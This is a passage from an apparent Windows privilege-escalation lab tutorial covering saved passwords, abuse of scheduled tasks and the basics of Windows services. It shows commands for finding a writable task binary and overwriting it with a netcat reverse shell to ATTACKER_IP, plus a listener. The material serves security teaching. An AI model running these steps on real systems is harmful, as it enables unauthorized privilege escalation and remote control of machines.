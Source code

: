 Just as putty stores credentials, any software that stores passwords, including browsers, email clients, FTP clients, SSH clients, VNC software and others, will have methods to recover any passwords the user has saved.

# Other Quick Wins
## Scheduled Tasks

Looking into scheduled tasks on the target system, you may see a scheduled task that either lost its binary or it's using a binary you can modify.

Scheduled tasks can be listed from the command line using the `schtasks` command without any options. To retrieve detailed information about any of the services, you can use a command like the following one:
`C:\>schtasks /query /tn vulntask /fo list /v`

You will get lots of information about the task, but what matters for us is the "Task to Run" parameter which indicates what gets executed by the scheduled task, and the "Run As User" parameter, which shows the user that will be used to execute the task.

If our current user can modify or overwrite the "Task to Run" executable, we can control what gets executed by the taskusr1 user, resulting in a simple privilege escalation. To check the file permissions on the executable, we use `icacls`:
`C:\>icacls C:\tasks\schtask.bat

As can be seen in the result, the **BUILTIN\Users** group has full access (F) over the task's binary. This means we can modify the .bat file and insert any payload we like. For your convenience, `nc64.exe` can be found on `C:\tools`. Let's change the bat file to spawn a reverse shell:
`C:\> echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat`

We then start a listener on the attacker machine on the same port we indicated on our reverse shell:
````
nc -lvp 4444
````
The next time the scheduled task runs, you should receive the reverse shell with taskusr1 privileges. While you probably wouldn't be able to start the task in a real scenario and would have to wait for the scheduled task to trigger, we have provided your user with permissions to start the task manually to save you some time. We can run the task with the following command:
`C:\> schtasks /run /tn vulntask`

# Abusing Service Misconfiguration

### Windows Services
Windows services are managed by the **Service Control Manager** (SCM). The SCM is a process in charge of managing the state of services as needed, checking the current status of any given service and generally providing a way to configure services.

Each service on a Windows machine will have an associated executable which will be run by the SCM whenever a service is started. It is important to note that service executables implement special functions to be able to communicate with the SCM, and therefore not any executable can be started as a service successfully. Each service also specifies the user account under which the service will run.
